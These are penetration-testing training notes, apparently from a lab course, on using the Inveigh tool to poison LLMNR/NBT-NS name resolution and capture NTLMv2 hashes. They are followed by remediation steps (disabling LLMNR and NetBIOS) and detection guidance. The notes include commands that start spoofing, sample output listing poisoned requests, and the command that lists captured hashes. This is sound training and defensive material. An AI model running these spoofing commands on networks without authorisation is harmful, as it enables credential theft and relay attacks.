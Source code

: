 The tool [Inveigh](https://github.com/Kevin-Robertson/Inveigh) works similar to Responder, but is written in PowerShell and C#. It can listen to IPv4 and IPv6 and several other protocols, including LLMNR, DNS, mDNS, NBNS, DHCPv6, ICMPv6, HTTPS, SMB, LDAP, WebDAV, and Proxy Auth.

## Using Inveigh
```powershell-session
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters

Key                     Value
---                     -----
ADIDNSHostsIgnore       System.Management.Automation.ParameterMetadata
KerberosHostHeader      System.Management.Automation.ParameterMetadata
ProxyIgnore             System.Management.Automation.ParameterMetadata
PcapTCP                 System.Management.Automation.ParameterMetadata
PcapUDP                 System.Management.Automation.ParameterMetadata
SpooferHostsReply       System.Management.Automation.ParameterMetadata
SpooferHostsIgnore      System.Management.Automation.ParameterMetadata
SpooferIPsReply         System.Management.Automation.ParameterMetadata
SpooferIPsIgnore        System.Management.Automation.ParameterMetadata
WPADDirectHosts         System.Management.Automation.ParameterMetadata
WPADAuthIgnore          System.Management.Automation.ParameterMetadata
ConsoleQueueLimit       System.Management.Automation.ParameterMetadata
ConsoleStatus           System.Management.Automation.ParameterMetadata
ADIDNSThreshold         System.Management.Automation.ParameterMetadata
ADIDNSTTL               System.Management.Automation.ParameterMetadata
DNSTTL                  System.Management.Automation.ParameterMetadata
HTTPPort                System.Management.Automation.ParameterMetadata
HTTPSPort               System.Management.Automation.ParameterMetadata
KerberosCount           System.Management.Automation.ParameterMetadata
LLMNRTTL                System.Management.Automation.ParameterMetadata

<SNIP>
```

Let's start Inveigh with LLMNR and NBNS spoofing, and output to the console and write to a file. We will leave the rest of the defaults, which can be seen [here](https://github.com/Kevin-Robertson/Inveigh#parameter-help).

```powershell-session
PS C:\htb> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

## C# Inveigh (InveighZero)

The PowerShell version is the original one, and is no longer updated. The tool author maintains the C# version, which combines the original PoC C# code and a C# port of most of the code from the PowerShell version. Before we can use this version we have to compile the executable.

Let's go ahead and run the C# version with the defaults and start capturing hashes.

```powershell-session
PS C:\htb> .\Inveigh.exe
```

We can `Press ESC to enter/exit interactive console`, which gives us access to captured credentials/hashes, allows us to stop Inveigh, and more.

```powershell-session
<SNIP>

[+] [20:10:24] LLMNR(A) request [academy-ea-web0] from 172.16.5.125 [response sent]
[+] [20:10:24] LLMNR(A) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [response sent]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[.] [20:10:24] TCP(1433) SYN packet from 172.16.5.125:61310
[.] [20:10:24] TCP(1433) SYN packet from 172.16.5.125:61311
C(0:0) NTLMv1(0:0) NTLMv2(3:9)> HELP
```

We can quickly view unique captured hashes by typing `GET NTLMV2UNIQUE`.

## Remediation

Mitre ATT&CK lists this technique as [ID: T1557.001](https://attack.mitre.org/techniques/T1557/001), `Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay`.

To ensure those spoofing attacks aren't possible, we can disable LLMNR and NBT-NS, a change like that should be tested carefully so it doesn't break anything on the network.

We can disable LLMNR in Group Policy by going to Computer Configuration --> Administrative Templates --> Network --> DNS Client and enabling "Turn OFF Multicast Name Resolution."

![[llmnr_disable.webp]]

NBT-NS cannot be disabled via Group Policy but must be disabled locally on each host. We can do this by opening `Network and Sharing Center` under `Control Panel`, clicking on `Change adapter settings`, right-clicking on the adapter to view its properties, selecting `Internet Protocol Version 4 (TCP/IPv4)`, and clicking the `Properties` button, then clicking on `Advanced` and selecting the `WINS` tab and finally selecting `Disable NetBIOS over TCP/IP`.

![[disable_nbtns.webp]]

While it is not possible to disable NBT-NS directly via GPO, we can create a PowerShell script under Computer Configuration --> Windows Settings --> Script (Startup/Shutdown) --> Startup with something like the following:

```powershell

$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}
```

In the Local Group Policy Editor, we will need to double click on `Startup`, choose the `PowerShell Scripts` tab, and select "For this GPO, run scripts in the following order" to `Run Windows PowerShell scripts first`, and then click on `Add` and choose the script. For these changes to occur, we would have to either reboot the target system or restart the network adapter.

![[nbtns_gpo.webp]]

To push this out to all hosts in a domain, we could create a GPO using `Group Policy Management` on the Domain Controller and host the script on the SYSVOL share in the scripts folder and then call it via its UNC path such as:

`\\inlanefreight.local\SYSVOL\INLANEFREIGHT.LOCAL\scripts`

Once the GPO is applied to specific OUs and those hosts are restarted, the script will run at the next reboot and disable NBT-NS, provided that the script still exists on the SYSVOL share and is accessible by the host over the network.

![[nbtns_gpo_dc.webp]]

Other mitigations include filtering network traffic to block LLMNR/NetBIOS traffic and enabling SMB Signing to prevent NTLM relay attacks. Network intrusion detection and prevention systems can also be used to mitigate this activity, while network segmentation can be used to isolate hosts that require LLMNR or NetBIOS enabled to operate correctly.

## Detection

One way of detection is to use the attack against the attackers by injecting LLMNR and NetBIOS requests for non-existent hosts across different subnets, and alerting if any of the requests receive answers, which would be indicative of an attacker spoofing name resolution responses. This [blog post](https://www.praetorian.com/blog/a-simple-and-effective-way-to-detect-broadcast-name-resolution-poisoning-bnrp/) explains this method more in-depth.

Furthermore, hosts can be monitored for traffic on ports UDP 5355 and 137, and event IDs [4697](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4697) and [7045](https://www.manageengine.com/products/active-directory-audit/kb/system-events/event-id-7045.html) can be monitored for. Finally, we can monitor the registry key `HKLM\Software\Policies\Microsoft\Windows NT\DNSClient` for changes to the `EnableMulticast` DWORD value. A value of `0` would mean that LLMNR is disabled.